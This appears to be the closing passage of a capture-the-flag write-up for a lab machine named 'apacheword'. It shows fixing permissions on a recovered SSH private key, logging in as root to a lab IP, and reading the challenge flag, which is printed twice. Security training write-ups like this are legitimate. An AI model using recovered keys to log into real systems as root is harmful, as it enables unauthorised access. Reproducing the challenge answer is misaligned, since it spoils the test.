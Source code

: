 Permissions should be changed to `-rw-------` or `600`.

	$ chmod 600 ~/.ssh/id_rsa
	$ ls -la ~/.ssh/id_rsa
	-rw------- 1 zst zst 1680 Feb 27 15:40 /home/zst/.ssh/id_rsa

Finally, we have access

	$ ssh root@172.30.0.3

	root@apacheword:~# ls -la
	total 12
	drwx------ 1 root root   20 Feb 27 07:43 .
	drwxr-xr-x 1 root root   62 Feb 27 04:27 ..
	-rw-r--r-- 1 root root 3106 Feb 20  2014 .bashrc
	drwx------ 2 root root   34 Feb 27 07:43 .cache
	-rw-r--r-- 1 root root  140 Feb 20  2014 .profile
	drwxr-xr-x 2 root root   29 Feb 22 20:12 .ssh
	-rw------- 1 root root   46 Feb 22 13:00 flag.txt
	root@apacheword:~# cat flag.txt
	gigem{w0rd_pr3ss_b3st_pr3ss_409186FC8E2A45FE}

## Flag

	gigem{w0rd_pr3ss_b3st_pr3ss_409186FC8E2A45FE}
